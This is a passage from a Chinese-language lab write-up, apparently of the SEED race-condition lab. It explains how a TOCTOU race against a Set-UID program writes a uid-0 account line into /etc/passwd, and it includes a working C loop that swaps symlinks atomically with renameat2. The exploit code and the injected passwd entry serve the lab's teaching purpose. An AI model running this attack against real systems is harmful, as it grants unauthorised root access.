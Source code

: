 在`target_process.sh`中用`test:U6aMy0wojraho:0:0:test:/root:/bin/bash`代替输入。

![image-20220504221350785](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012324392.png)

在一个终端中先运行`attack`，在另一个终端中运行`target_process.sh`，运行了不到1分钟就输出了`STOP... The passwd file has been changed`。

![image-20220504221543612](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012324303.png)

检查`/etc/passwd`成功写入：

![image-20220504221657978](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012324704.png)

##### manual问题

多跑了几次出现了manual中的那种问题，`/tmp/XYZ`的拥有者变成了root。（原本一直都是seed）

![image-20220504223013744](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012324893.png)

原因：攻击程序在删除`/tmp/XYZ`（即`unlink()`）之后，在链接到另一个文件（即`symlink()`）之前立即切换上下文。因为删除现有符号链接并创建新符号链接的操作**不是原子的**（涉及两个单独的系统调用）。所以，如果上下文切换发生在中间（即在删除 `/tmp/XYZ` 之后），并且目标Set-UID程序有机会运行 `fopen(fn, "a+")`语句，它将创建一个以root为所有者的新文件。攻击程序将无法再更改`/tmp/XYZ`。（/tmp文件夹有一个sticky bit，这意味着只有文件的所有者可以删除该文件，即使该文件夹是所有用户都可写的）

```c
正确：
	通过access检查
->	unlink
->	symlink /etc/passwd
->	fopen /etc/passwd

错误：
	通过access检查
->	unlink
->	fopen	（打开了不存在的文件，vulp创建一个以root为所有者的新文件，攻击者将无法再更改/tmp/XYZ）
->	symlink
```

执行下图中的分支：

![image-20220504224655620](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012324377.png)



#### Task 2.C: An Improved Attack Method

使用提供的程序，通过使用`renameat2`系统调用来原子地切换symlink，将`renameat2`写在`while`循环中：（如果`while`把`unlink`，`symlink`也包括起来还是容易产生之前的问题）：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
int main()
{
    unsigned int flags = RENAME_EXCHANGE;

    unlink("/tmp/XYZ");
    symlink("/dev/null", "/tmp/XYZ");
    unlink("/tmp/ABC");
    symlink("/etc/passwd", "/tmp/ABC");
    while (1)
    {
        renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
    }
    return 0;
}
```

